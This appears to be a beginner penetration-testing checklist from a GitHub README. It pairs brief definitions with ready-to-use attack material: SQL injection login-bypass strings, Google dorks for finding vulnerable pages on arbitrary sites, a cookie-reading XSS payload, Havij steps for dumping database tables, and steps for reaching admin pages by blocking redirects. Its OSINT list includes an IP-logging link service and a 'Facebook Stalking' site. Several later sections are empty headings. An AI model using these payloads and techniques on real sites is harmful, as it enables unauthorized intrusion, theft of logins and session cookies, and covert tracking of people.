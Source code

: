 # Penetration-Testing

* Penetration Testing Checklist: https://github.com/mdrrifat/Penetration-Testing-Checklist

- [ ] Basic SQL Injection                                                                                                      
- [ ] Havij                                                                                                                               
- [ ] OSINT                                                                                                                       
- [ ] XSS Vulnerability                                                                                                   
- [ ] Season Hijacking                                                                                                  
- [ ] Manual SQL Injection                                                                                              
- [ ] SQLi WAF                                                                                                            
- [ ] LFI Vulnerability                                                                                                 
- [ ] Advance LFI (LFI to RCE)                                                                                     
- [ ] Web Shell Upload                                                                                                   
- [ ] CSRF Vulnerability                                                                                                    
- [ ] Kali Linux Tools                                                                                                                 
- [ ] Penetration Testing                                                                                                     

 
# Basic SQL Injection                                                                                                      
SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution. SQL injection must exploit a security vulnerability in an application's software, for example, when user input is either incorrectly filtered for string literal escape characters embedded in SQL statements or user input is not strongly typed and unexpectedly executed.

Use This in Username and Password:
- 1'or'1'='1
- ' or 1=1#
- or 1=1--
- or 1=1#
- or 1=1/*
- admin' or '1'='1
- admin' or '1'='1'--
- admin' or '1'='1'#
- admin' or 1=1
- admin' or 1=1--

# Havij                                                                                                                               
Havij is a popular and controversial automated SQL injection tool that was used primarily for penetration testing and ethical hacking purposes. SQL injection is a type of cybersecurity vulnerability that can allow attackers to manipulate a web application's database by injecting malicious SQL code. Havij was designed to automate the process of finding and exploiting SQL injection vulnerabilities in web applications.

- [ ] Steps:

- [php?id= link] then [php?id=num] we get then - havij
- php?id= link
- php?id= site:link
- http://link/news.php?id=7 
- Target-analyze-table-get tables-get column

# OSINT
Open Source Intelligence (OSINT) is a type of intelligence-gathering methodology that involves collecting and analyzing information from publicly available sources. OSINT relies on publicly accessible information, which can include data from the internet, social media, news sources, public records, government publications, and other publicly available resources. The primary goal of OSINT is to gather insights and knowledge that can inform decision-making processes in various fields, including cybersecurity, law enforcement, business intelligence, and national security.

- [ ] OSINT Framework: https://osintframework.com/
- [ ] Online tools:
- web history wayback: https://archive.org/web/
- Grabify IP: https://grabify.link/
- IP Address Lookup | Geolocation : https://www.iplocation.net/
- Domain Availability: https://whois.domaintools.com/
- Facebook Stalking: https://stalkface.com/en/
- Wappalyzer: https://www.wappalyzer.com/
- Email Header Analyzer: https://mxtoolbox.com/EmailHeaders.aspx
- image osint: https://29a.ch/
- Photo Forensic: https://29a.ch/photo-forensics

# XSS Vulnerability    
Cross-site scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when a web application allows users to input or inject malicious scripts into web pages that are then viewed by other users. These scripts can be executed in the context of a victim's browser, potentially leading to various security risks and attacks.

- [ ] There are three main types of XSS attacks:
- Reflected XSS
- Stored XSS
- DOM-based XSS

- [ ] Dork for xss
- /search/?keyword= site: 
- inurl:".php?search="
- /search-results?q=
- /index.php?page=
- inurl:".php?pass="

- [ ] Script:
- <script>alert(1)</script>
- <script>alert(document.cookie)</script>


# Season Hijacking 
Session hijacking is a type of cyber attack in which an attacker takes control of a user's active session on a web application. This can be done by stealing the user's session token, which is a unique identifier that is used to authenticate the user's session.

- [ ] Steps
- tools-NoRedirect
- Go Cyberfox [https://site.com/admin/login.php] no redirect - add 
- remove [/admin] then enter [https://site.com/admin] ok
-- If only-admin 
-- Add- admin/login.php/dashboard.php/user.php
- (Avoid login.php and ) done
- [advance-add exception-confirm]

# Manual SQL Injection                                                                                              
# SQLi WAF                                                                                                            
# LFI Vulnerability                                                                                                 
# Advance LFI (LFI to RCE)                                                                                     
# Web Shell Upload                                                                                                   
# CSRF Vulnerability                                                                                                    
# Kali Linux Tools                                                                                                                 
# Penetration Testing   
